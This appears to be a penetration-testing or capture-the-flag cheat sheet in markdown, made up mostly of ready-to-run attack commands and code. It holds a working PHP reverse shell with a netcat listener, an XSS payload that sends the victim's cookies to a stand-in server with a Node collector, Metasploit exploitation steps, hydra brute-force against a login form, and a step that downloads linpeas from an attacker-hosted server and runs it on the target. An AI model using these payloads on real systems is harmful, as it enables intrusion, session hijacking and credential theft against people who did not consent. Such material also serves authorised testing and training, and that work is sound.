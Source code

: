 ## Network scan with`nmap`:
```bash
nmap -v -sV -O -A --top-ports 1000 -oN nmap_output.txt example.com
```

## Directory enumeration with `dirb`:
```bash
dirb http://example.com /usr/share/wordlists/dirb/common.txt -o dirb_output.txt
```

## Subdomains enumeration with `ffuf`:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://example.com -H "Host: FUZZ.example.com" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Web app scan with `nikto`:
```bash
nikto -h example.com -p 80 -o nikto_output.txt
```

## Exploit with `metasploit`:
```bash
msfconsole

show

search <exploit_name>

use exploit/linux/http/exploit_name

set RHOSTS example.com
set RPORT 80

show payloads
set payload <payload_name>

exploit
```

## PHP reverse shell
### Listener:
```bash
nc -lvnp 4444
```
### Reverse shell:
```php
<?php
$ip = 'x.x.x.x'; // change this to your IP address
$port = 4444; // change this to your listening port
$socket = fsockopen($ip, $port);
if ($socket) {
    $shell = 'uname -a; w; id; /bin/sh -i';
    fwrite($socket, $shell);
    while (!feof($socket)) {
        $command = fgets($socket);
        $output = '';
        if ($command) {
            $output = shell_exec($command);
            fwrite($socket, $output);
        }
    }
    fclose($socket);
}
?>
```

## XSS/CSRF attack
### Serve:
```bash
mkdir xss
cd xss
nano index.html
sudo python3 -m http.server 4444
```
### index.html:
```bash
<html>
  <head>
    <title>CTF</title>
    <script>
      // This script will send the admin's cookies to your server when executed
      var i = new Image();
      i.src = "http://YOUR_SERVER_IP:5555/?cookie=" + document.cookie;
    </script>
  </head>
  <body>
    <h1>Hi Admin!</h1>
  </body>
</html>
```
### Listen:
```bash
mkdir cookies
cd cookies
nano index.js
node index.js
```
### index.js:
```bash
const http = require('http');
const url = require('url');

http.createServer((req, res) => {
  const queryObject = url.parse(req.url, true).query;
  console.log('Cookies: ', queryObject.cookie);
  res.end('Logged');
}).listen(5555);
```

## Login brute-force with `hydra`
### Syntax 1:
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt http-post-form://example.com/login"&username=^USER^&password=^PASS^:F=Bad"
```
### Syntax 2:
```bash
sudo hydra -v -V -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt example.com http-post-form "/login:username=^USER^&password=^PASS^=:F=Bad"
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc example.com 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Archive
### Compress:
```bash
tar -czvf archive.tar.gz /path/to/directory_or_file
```
### Extract:
```bash
tar -xzvf archive.tar.gz -C /path/to/extract
```

## Privilege escalation with `linpeas`
### Serve:
```bash
mkdir linpeas
cd linpeas
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Download and execute:
```bash
cd /tmp
wget x.x.x.x:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
